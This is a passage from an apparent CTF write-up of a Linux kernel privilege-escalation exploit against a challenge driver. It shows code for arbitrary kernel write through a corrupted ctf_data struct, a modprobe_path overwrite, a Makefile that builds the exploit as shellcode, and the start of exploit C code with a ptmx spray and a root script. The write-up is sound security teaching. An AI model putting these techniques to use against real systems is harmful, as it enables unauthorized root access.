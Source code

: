 ```cpp
}

```

Once we can fully control a `struct ctf_data`, we can just modify `mem` and `size` to achieve kernel address arbitrary write. We choose to modify `modprobe_path` to achieve local privilege escalation.


```cpp
// Get the fd of our victim ctf_data
read(ctf,buf,0x10);
int idx = p[1]/0x100-1;
// Modify the ctf_data structure
// mem pointer will become modprobe_path
size_t payload[] = {kaddr+0x244DD40,0x100};
write(ctf,payload,0x10);
// Overwrite modprobe_path
char path[] = "/tmp/x";
write(fd[idx],path,sizeof(path));

```

We plan to execute our entire kernel exploit in pure shellcode format. Here we create a Makefile which can create a 0x1000 bytes shellcode from a C source. The shellcode will be created at the first 0x1000 bytes of `sc.bin`. 



```Makefile=
all: sc.bin

sc.bin: sc.o
	ld --oformat=binary sc.o -o sc.bin -Ttext 0 -Tbss 0xc00  -Tdata 0x800
sc.o:	sc.c
	gcc -fomit-frame-pointer -fno-stack-protector -nostdlib -fPIE -masm=intel -c sc.c

clean:
	rm sc.bin sc.o

```

The exploit in C :

```c=
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <sys/syscall.h>

int fd[0x100];
char ctfpath[] = "/dev/ctf";
char ptmx[] = "/dev/ptmx";
char msg[] = "#!/bin/bash\ncat /dev/vdb>/tmp/root";
char mess[] = "\xff\xff\xff\xff";
char ybin[] = "/tmp/y";
char flagpath[] = "/tmp/root";
int memfd_create(char* ptr,unsigned int flags);
int my_itoa(int val,char* buf);

void _start(){

	for(int i=0;i<0x100;i++)
		fd[i] = open(ptmx,2);
	for(int i=0;i<0x100;i++)
		close(fd[i]);
```